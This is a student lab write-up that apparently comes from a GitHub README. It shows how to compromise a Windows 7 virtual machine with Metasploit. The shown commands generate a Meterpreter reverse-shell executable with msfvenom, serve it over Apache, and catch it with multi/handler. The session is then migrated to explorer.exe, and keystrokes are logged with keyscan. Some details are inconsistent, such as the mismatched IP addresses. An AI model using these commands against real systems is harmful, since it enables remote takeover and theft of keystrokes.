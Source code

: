 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
## Name: Harevasu S
## Reg No: 212223230069
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## ifconfig
192.168.91.247

![ipconfig6(1)](https://github.com/user-attachments/assets/5f670a52-63d9-415c-ab0a-bfa942cd94d0)
Find the attackers ip address using ifconfig

## msfvenom

![msfvenom(1)new](https://github.com/user-attachments/assets/8dd59155-f5e6-473f-8840-292ee5b0e07b)

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

##  copy the fun.exe into apache/var/www/html/
![systemctl(1)](https://github.com/user-attachments/assets/69eb6758-41e8-4294-b2cb-d9dcd2416175)

copy fun.exe start apache server sudosystemctl apache2 start check the status of apache2

## msfconsole

![msfconsolehelp](https://github.com/user-attachments/assets/23643dfe-ca81-488d-a833-c6450a55610f)

invoke msfconsole Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## Multihander,setpayload,exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Parrot machine: http://192.168.91.247/

![new1](https://github.com/user-attachments/assets/0bd712a9-76cb-41d6-aceb-1152a6c04d4f)

![catarul](https://github.com/user-attachments/assets/656b11b1-d958-45f9-a4e1-e863e6102036)

![VirtualBox_windows 7_21_04_2025_13_34_08(2)](https://github.com/user-attachments/assets/5d96f50e-0cfa-4127-ba3f-3dd81910f545)

![folderforfunexe](https://github.com/user-attachments/assets/83b175cf-c502-46bc-99a2-06d4854063f1)

![usemulti](https://github.com/user-attachments/assets/bc802e2b-836e-477f-8356-eceb82bb8eef)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![ps](https://github.com/user-attachments/assets/42b39d96-52d9-4e5c-bd7a-d23534ee8ee5)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![netstat](https://github.com/user-attachments/assets/8a6d9037-074c-4527-9c8c-65b5606abdcb)

## Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![keyscan_startanddump](https://github.com/user-attachments/assets/87f5f7b1-8f78-4bb2-ac9f-c88ffcde3f0b)

![output](https://github.com/user-attachments/assets/5cfcb9d5-80bc-4425-8477-f3d2ffc73965)

![keyscan_startanddump](https://github.com/user-attachments/assets/7beac93c-96ea-47f3-a842-e350d57bba12)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
